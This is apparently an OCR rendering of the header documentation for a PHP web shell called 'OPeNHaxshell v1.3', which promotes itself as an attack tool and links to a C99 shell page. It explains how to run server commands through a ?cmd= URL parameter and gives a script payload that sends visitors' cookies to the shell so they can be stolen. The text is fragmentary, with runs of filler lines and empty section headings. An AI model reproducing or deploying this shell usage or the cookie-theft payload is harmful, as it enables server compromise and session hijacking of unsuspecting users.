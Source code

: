 #                       [OPeNHax]Tn presents:                         #
#                       OPeNHaxshell v1.3 final                         #

###
###
###
###
###
###
###
###
###
###
###
###
###
###DOCUMENTATION
###
###
###
###
###
###
###
###
###
###
###
###
###
####
#To execute commands, simply include ?cmd=___ in the url.            #
#Ex: http://site.com/shl.php?cmd=whoami                              #
#                                                                    #
#To steal cookies, use ?cookie=___ in the url.                       #
#Ex: &lt;script&gt;document.location.href=                                 #
#'http://site.com/shl.php?cookie='+document.cookies&lt;/script&gt;         #

###
###
###
###
###
###
###
###
###
###
###
###
###VERIFICATION LEVELS
###
###
###
###
###
###

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"